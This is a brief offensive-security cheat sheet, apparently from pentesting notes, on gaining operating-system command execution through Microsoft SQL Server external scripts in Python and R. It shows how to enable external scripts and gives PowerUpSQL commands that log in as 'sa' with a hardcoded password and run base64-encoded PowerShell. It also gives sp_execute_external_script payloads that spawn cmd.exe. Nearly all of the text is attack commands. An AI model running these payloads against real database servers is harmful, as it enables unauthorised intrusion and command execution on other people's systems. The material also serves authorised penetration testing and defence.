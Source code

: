 
## External Scripts

Requirements:

* Feature 'Advanced Analytics Extensions' must be installed
* Enable **external scripts**.

```sql
sp_configure 'external scripts enabled', 1;
RECONFIGURE;
```


### Python

```ps1
Invoke-SQLOSCmdPython -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose

EXEC sp_execute_external_script @language =N'Python',@script=N'import subprocess p = subprocess.Popen("cmd.exe /c whoami", stdout=subprocess.PIPE) OutputDataSet = pandas.DataFrame([str(p.stdout.read(), "utf-8")])'
WITH RESULT SETS (([cmd_out] nvarchar(max)))
```


### R

```ps1
Invoke-SQLOSCmdR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose

EXEC sp_execute_external_script @language=N'R',@script=N'OutputDataSet <- data.frame(system("cmd.exe /c dir",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO

@script=N'OutputDataSet <-data.frame(shell("dir",intern=T))'
```




## References

* [Attacking SQL Server CLR Assemblies - Scott Sutherland - July 13th, 2017](https://blog.netspi.com/attacking-sql-server-clr-assemblies/)
* [MSSQL Agent Jobs for Command Execution - Nicholas Popovich - September 21, 2016](https://www.optiv.com/explore-optiv-insights/blog/mssql-agent-jobs-command-execution)